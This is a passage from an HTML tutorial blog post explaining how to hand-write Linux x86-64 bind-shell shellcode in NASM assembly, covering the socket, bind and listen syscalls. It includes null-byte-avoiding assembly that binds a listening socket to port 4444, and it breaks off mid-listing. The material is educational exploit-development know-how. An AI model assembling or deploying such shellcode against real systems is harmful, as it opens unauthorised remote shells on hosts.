 lrwx------ 1 kali kali 64 Feb 28 16:16 /proc/43453/fd/3 -&gt; 'socket:[608794]'</code></pre><p>What the shellcode did is create a new file descriptor for the socket object. This is due to the fact that on Linux <em>everything is a file</em>, sockets too.</p><figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://en.wikipedia.org/wiki/Everything_is_a_file"><div class="kg-bookmark-content"><div class="kg-bookmark-title">Everything is a file - Wikipedia</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><img class="kg-bookmark-icon" src="https://en.wikipedia.org/static/apple-touch/wikipedia.png" alt=""><span class="kg-bookmark-author">Wikimedia Foundation, Inc.</span><span class="kg-bookmark-publisher">Contributors to Wikimedia projects</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://upload.wikimedia.org/wikipedia/en/thumb/9/99/Question_book-new.svg/50px-Question_book-new.svg.png" alt=""></div></a></figure><h3 id="socket-binding">Socket Binding</h3><p>Once the socket object is created, it's time to <strong>bind</strong> it to our socket of choice.</p><p>To perform this operation, we can use the homonymous syscall:</p><figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/bind.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">bind(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a></figure><p>It accepts three arguments:</p><ol><li><strong><em>sockfd</em> </strong>is the file descriptor of the socket created previously by means of the <code>socket</code> syscall</li><li><em><strong>addr</strong> </em>is a pointer to a <code>sockaddr</code> structure containing all the information to perform the binding, such as the IP address and the TCP port</li><li><strong><em>addrlen</em> </strong>indicates the length of the <code>sockaddr</code> structure, usually 16 bytes (including padding bytes)</li></ol><p>In the code below, I'm binding the created socket object to the socket<code>0.0.0.0:4444</code> to later listen for connections on all the IP addresses of the host.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">BindSocket:

    ; save file descriptor inside RSI
    ; 1st argument of bind(): file descriptor of the socket to bind
    xchg rax, rdi

    ; INADDR_ANY (0x00000000)
    ; TCP port 4444
    ; 0x00002 -&gt; AF_INET
    mov esi, 0x5c11ffff
    xor si, 0xfffd
    push rsi

    ; 2nd argument of bind(): pointer to the sock_addr struct
    mov rsi, rsp
    mov r10, rsi

    ; 3rd argument of bind(): size of the struct
    add edx, 16

    ; syscall bind()
    xor eax, eax
    add rax, 49

    ; bind socket to 0.0.0.0:4444
    syscall</code></pre><figcaption>Binding the socket to the port <code>4444</code></figcaption></figure><h3 id="listening">Listening</h3><p>The next step involves the <code>listen</code> syscall, which marks the socket referred to by <em>sockfd</em> as a passive socket i.e., a socket that will be used to accept incoming connection requests using <code>accept()</code>.</p><figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/listen.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">listen(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a></figure><p>According to the Linux manual, the <em>listen</em> syscall accepts two arguments:</p><ol><li><strong><em>sockfd</em> </strong>is the file descriptor of the previously created TCP socket object</li><li><em><strong>backlog</strong></em> is an integer specifying the maximum number of clients allowed to connect to the socket, which in this case it's just one since there's no multi-threading involved</li></ol><p>Follows the assembly code relevant to this function:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">Listen:

    ; 2nd argument of listen(): backlog (number of connections to accept), in this case just 1
    xor rsi, rsi
    mul rsi
    inc rsi

    ; 1st argument of listen(): file descriptor of the socket
    ; the value is already stored inside RDI

    ; syscall listen()
    add eax, 50

    ; call listen(fd, 1)